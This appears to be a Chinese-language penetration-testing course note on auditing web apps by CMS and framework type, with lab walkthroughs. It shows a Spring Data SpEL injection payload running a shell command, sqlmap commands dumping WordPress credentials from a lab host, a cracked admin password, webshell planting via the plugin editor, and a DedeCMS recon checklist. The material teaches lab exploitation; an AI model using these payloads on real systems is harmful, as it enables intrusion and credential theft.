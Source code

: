 ## 思维导图

![](image43/2040420_1.jpg)

## 相关概念

### 已知 CMS

如常见的 dedecms.discuz,wordpress 等源码结构，这种一般采用非框架类开发，但也有少部分采用的
是框架类开发，针对此类源码程序的安全检测，我们要利用公开的漏洞进行测试，如不存在可采用
白盒代码审计自行挖掘。

### 开发框架

如常见的 thinkphp，spring,flask 等开发的源码程序，这种源码程序正常的安全测试思路：先获取对
应的开发框架信息(名字，版本)，通过公开的框架类安全问题进行测试，如不存在可采用白盒代码审
计自行挖掘。

### 未知 CMS

如常见的企业或个人内部程序源码，也可以是某 CMS 二次开发的源码结构，针对此类的源码程序测
试思路：能识别二次开发就按已知 CMS 思路进行，不能确定二次开发的话可以采用常规综合类扫描
工具或脚本进行探针，也可以采用人工探针（功能点，参数，盲猜），同样在有源码的情况下也可以
进行代码审计自行挖掘

## 演示案例：

### 开发框架类源码渗透测试报告-资讯-thinkphp,spring

#### thinkphp

![QQ截图20220405103231](image43/QQ截图20220405103231.png)



输入错误url，报错显示Thinkphp版本![](image43/QQ截图20220405103339.png)

同样

![QQ截图20220405103318](image43/QQ截图20220405103318.png)

![](image43/QQ截图20220405103339.png)

#### spring

vulhub靶场

![](image43/QQ截图20220405113650.png)

![](image43/QQ截图20220405121833.png)

payload

```txt
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```



![](image43/QQ截图20220405121938.png)

![](image43/QQ截图20220405122159.png)

### 已知 CMS 非框架类渗透测试报告-工具脚本-wordpress

靶场地址[https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe)

采用WordPress  CMS

![](image43/QQ截图20220405132531.png)

wpscan 扫描

![](image43/QQ截图20220405133034.png)

![QQ截图20220405134320](image43/QQ截图20220405134320.png)

![QQ截图20220405134425](image43/QQ截图20220405134425.png)



![](image43/QQ截图20220405141735.png)

构造链接

```html
http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a
```



使用sqlmap快开始跑

```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" --dbs
```

![](image43/QQ截图20220405144644.png)



```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" --tables
```

![](image43/QQ截图20220405144733.png)



```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" -T "wp_users --columns
```

![](image43/QQ截图20220405144854.png)

```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" -T "wp_users" -C "user_login,user_pass" --dump
```

![](image43/QQ截图20220405144948.png)

```
admin

$P$Bj8Pp.mH8GIjcXQqp1ZuyRw7i4oV72.
```

md5 查询 ————————》12qwaszx

![](image43/QQ截图20220405143749.png)

查一下后台地址，登录后台



![](image43/QQ截图20220405143818.png)

在插件中添加一句话小马

![](image43/QQ截图20220405143839.png)

![QQ截图20220405144209](image43/QQ截图20220405144209.png)



蚁剑连接

```
http://124.70.71.251:47438/wp-admin/plugin-editor.php?file=comment-rating/comment-rating.php
```

![](image43/QQ截图20220405144404.png)

![QQ截图20220405144437](image43/QQ截图20220405144437.png)

获取到key

mozheaac6be9855cd7bd73e3af588587

### 已知 CMS 非框架类渗透测试报告-代码审计-qqyewu_php

分析~~~

![](image43/QQ截图20220405152337.png)

### 未知 CMS 非框架类渗透测试报告-人工-你我都爱的 wg 哦~

实战

```txt
DedeCMS
查看版本信息
/data/ admin/ver.txt
默认后殆
/dede
爆后台路径
/data/mysql_ error_ _trace.inc

弱口令
扫端口nmap -sV
后台备份文件压缩包
```



## 涉及资源：

[https://vulhub.org/](https://vulhub.org/)
[https://wpvulndb.com/users/sign_up](https://wpvulndb.com/users/sign_up)
[https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
[https://github.com/ajinabraham/CMSScan](https://github.com/ajinabraham/CMSScan)
[https://pan.baidu.com/s/1KCa-5gU8R8jPXYY19vyvZA 提取码：xiao](https://pan.baidu.com/s/1KCa-5gU8R8jPXYY19vyvZA 提取码：xiao)
[https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe)



